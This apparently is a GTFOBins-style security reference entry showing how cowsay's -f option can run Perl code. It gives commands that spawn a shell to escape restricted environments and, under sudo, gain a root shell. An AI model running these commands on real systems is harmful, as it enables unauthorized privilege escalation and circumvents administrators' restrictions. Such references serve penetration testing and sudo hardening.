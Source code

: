 # GTFOBin: cowsay

It allows to execute `perl` code, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
cowsay -f $TF x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
sudo cowsay -f $TF x
```